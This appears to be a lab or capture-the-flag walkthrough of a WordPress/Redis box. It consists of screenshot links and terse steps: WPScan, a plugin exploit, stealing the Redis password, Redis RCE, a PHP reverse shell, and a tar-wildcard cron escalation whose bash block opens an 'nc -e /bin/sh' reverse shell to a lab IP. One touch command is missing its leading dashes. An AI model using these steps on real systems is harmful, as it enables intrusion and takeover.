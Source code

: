 ![image](https://github.com/user-attachments/assets/32dd8ac7-6ba1-4f6a-87e7-ca1be395707e)
![image](https://github.com/user-attachments/assets/499717f1-b319-462e-922d-3d31a78b2b23)
![image](https://github.com/user-attachments/assets/10b7f6d6-acea-4480-ab98-88d9acef6fc3)
![image](https://github.com/user-attachments/assets/1192314e-f873-45c9-87d6-ea5750eafa23)
![image](https://github.com/user-attachments/assets/6c98fc1c-32d9-4f46-b44e-4a75631947f0)
![image](https://github.com/user-attachments/assets/fbf63229-5216-46d0-91cb-62f448ed7d6a)
![image](https://github.com/user-attachments/assets/d100b004-a86b-442a-a9c4-483971588f35)
![image](https://github.com/user-attachments/assets/5988b499-5ad0-46b0-a706-0d88b98f0bd6)
![image](https://github.com/user-attachments/assets/8af331e7-a318-44c1-bfd5-5d86ec914a66)
![image](https://github.com/user-attachments/assets/786c8a9e-5d86-47fa-bd5d-341bb5542f60)
![image](https://github.com/user-attachments/assets/6dd13455-142c-4a64-9476-0361235f2f2b)
![image](https://github.com/user-attachments/assets/a90146c7-8d66-4198-9f4b-db2b600646d2)
![image](https://github.com/user-attachments/assets/58c5d2dd-25a6-4a4f-b441-425add63d2f0)
![image](https://github.com/user-attachments/assets/dfe0d4df-8b30-47ae-9ecd-693c38b04727)
![image](https://github.com/user-attachments/assets/17329205-1429-4a37-9c73-87180fd8b08a)
![image](https://github.com/user-attachments/assets/887ef54e-09ea-4a58-a8a7-3226299aced3)
![image](https://github.com/user-attachments/assets/31e434c6-d1a7-400b-893d-1c4a1d16f219)
![image](https://github.com/user-attachments/assets/da36cd67-f3db-4afe-a01a-ce6f0f113dd8)
![image](https://github.com/user-attachments/assets/ae3d11ac-cadd-4f7b-9fa3-d4d5ab9f22c8)
![image](https://github.com/user-attachments/assets/f9559a01-9ace-400b-ba28-e5b180b639dd)
![image](https://github.com/user-attachments/assets/1e8bfe2c-33b0-40c0-b815-5ac619d573ea)
![image](https://github.com/user-attachments/assets/ddffe00b-4e66-4fb2-9389-c2cf1738db85)
![image](https://github.com/user-attachments/assets/3da3ccb4-d310-4ec0-997a-e36f382c4269)
![image](https://github.com/user-attachments/assets/f9aa57d6-6449-46a2-b1e5-965417cc7447)
![image](https://github.com/user-attachments/assets/dc98b19b-3e84-43c5-bbd9-b98694de687e)
![image](https://github.com/user-attachments/assets/0d8cb718-3c8e-4d38-ba97-57811711372a)
![image](https://github.com/user-attachments/assets/1cef9b58-474c-4bd0-977d-abd8c2d355b1)
![image](https://github.com/user-attachments/assets/ca76b36b-5339-44b5-8937-c5ef35d597f6)
![image](https://github.com/user-attachments/assets/c78831d0-3da7-4447-abc1-caa9a44f1b18)
![image](https://github.com/user-attachments/assets/fecc6a50-c773-4e95-a088-e9d41d34c5e0)
![image](https://github.com/user-attachments/assets/9a0854be-5d8b-420b-9ede-94872d72e817)

![image](https://github.com/user-attachments/assets/6d4ef98c-0832-49ac-9a74-4062f54a219d)

![image](https://github.com/user-attachments/assets/c87489ac-ac30-40e7-94b5-6a0ca0182233)




1. WPScan -- get user admin

2. WPScan password attack against admin, no password after 15 mins, get Plugin site editor version 1.1.1

3. Exploit-DB 44340 --> get user alice --> also redis? 

4. /etc/redis/redis.conf --> SECURITY get password

5. get exp_lin.so & redis-rce.py from https://github.com/jas502n/Redis-RCE

6. usage example https://github.com/Ridter/redis-rce    (password from redis.conf)

7. MySQL creds from /var/www/html/wp-config.php

8. netstat -tulnp --> port 3306 listen on local address

9. try MySQL database --> cannot log in, just hanging

10. ps -aux --> alice run apache2

11. find / -type d -maxdepth 4 -writable 2>/dev/null --> cannot write to /var/www/html (apache2)

12. simple php --> /tmp/test.php ---> curl to call  --> fail

13. simple php --> /run/redis/test.php ---> curl to call --> work

14. php reverse shell --> /run/redis/php-reverse-shell.php --> curl to call --> get shell as alice

15. linpeas --> Cron Job /usr/local/bin/backup.sh --> tar *

16. tar wildcard privilege escalation
    ```bash
    echo '#!/bin/bash' > exploit.sh
    echo 'nc -e /bin/sh 192.168.45.165 80' >> exploit.sh
    chmod +x exploit.sh
    touch ./"--checkpoint=1"
    touch ./"checkpoint-action=exec=bash exploit.sh"
   ```
